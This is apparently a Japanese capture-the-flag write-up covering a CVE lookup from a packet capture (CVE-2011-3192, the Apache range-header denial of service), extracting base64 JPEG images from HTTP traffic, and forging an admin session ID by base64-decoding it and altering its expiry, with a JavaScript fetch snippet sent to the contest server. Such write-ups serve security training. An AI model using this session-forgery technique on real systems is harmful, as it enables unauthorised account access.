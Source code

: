### さあ得点は？

あるサービスに存在する脆弱性を悪用した攻撃を記録したキャプチャファイルが渡されます。
この中から脆弱性を特定し、そのCVEのCVSS(v2.0)スコアを求める問題です。
HTTPパケットを眺めているとbyte rangeヘッダに変なペイロードが仕込まれていることに気が付きました。
そしてHTTPレスポンスにapacheとあったので、NISTのCVE検索で以下のように検索しました。
```
apache range header
```
そこで出てきたCVEレコードの概要を読み、今回のペイロードと最も一致するものを探します。
CVE-2011-3192の説明に複数のrange headerを表現することでDOSを行うと書いてあったので、これだと思い、このCVEのスコアを提出したところ正解でした。
```
flag{7.8}
```

### decode

複数のキャプチャファイルが渡され、この中からフラグを取り出す問題です。
まずはmergecapコマンドで1つのキャプチャファイルに結合します。
HTTPパケットを中心に見ていくと、/image.phpエンドポイントに対するリクエストが複数ありました。
レスポンスを確認すると/9j/から始まるbase64文字列がJSON形式で返されていました。
/9j/から始まるものはjpegがbase64エンコードされたものなので、全てのHTTPレスポンスの内容をbase64デコードしてjpegファイルとして抜き出していきます。
すると/image.php?filename=f1a104ee8991747892d3193d6d689d04のレスポンスのjpegにフラグが書かれていました。
```
flag{c4ptur3_cat}
```

## FR

### 露出禁止！

Webサーバのログファイルが渡され、その中からペイロードを推測してフラグを取り出す問題です。
ログにあるリクエストは全て/ctf/fr1/index.phpと/mypage.phpに対するリクエストでした。
```
192.168.100.103 - - [10/Jul/2024:15:36:01 +0900] "GET /index.php HTTP/1.1" 200 424
192.168.100.103 - - [10/Jul/2024:15:36:03 +0900] "POST /auth.php HTTP/1.1" 302 -
192.168.100.103 - - [10/Jul/2024:15:36:05 +0900] "GET /mypage.php?sesid=MTcyMjMxMjQxNywzLHVzZXIzCg== HTTP/1.1" 200 281
192.168.100.106 - - [10/Jul/2024:15:40:03 +0900] "GET /index.php HTTP/1.1" 200 424
192.168.100.106 - - [10/Jul/2024:15:40:08 +0900] "POST /auth.php HTTP/1.1" 302 -
192.168.100.106 - - [10/Jul/2024:15:40:11 +0900] "GET /mypage.php?sesid=MTcyMjM0Nzk5OSw2LHVzZXI2Cg== HTTP/1.1" 200 281
...
```
/mypage.phpにはなぜかクエリパラメータにセッションIDが付与されていました。
1つだけ他のと違うセッションIDがあるので、これをbase64デコードすると以下のようになります。
```
1722334192,1,admin
```
これをそのまま使い、/mypage.phpに行ってみるとセッションが期限切れですと言われてしまいます。
最初の数値が有効期限らしいので、これを絶対期限切れにならない数値に変えた上で再度リクエストを行います。
```javascript
(async () => {
    const baseUrl = "https://fr1-prod.2025winter-cybercontest.net/";
    const payload = "1822334192,1,admin";
    const b64Payload = btoa(payload);
    const res = await fetch(baseUrl + "mypage.php?sesid=" + b64Payload);
    console.log(await res.text());
})();
```
するとフラグがもらえました。
```
flag{SessionIDsCarefully}
```
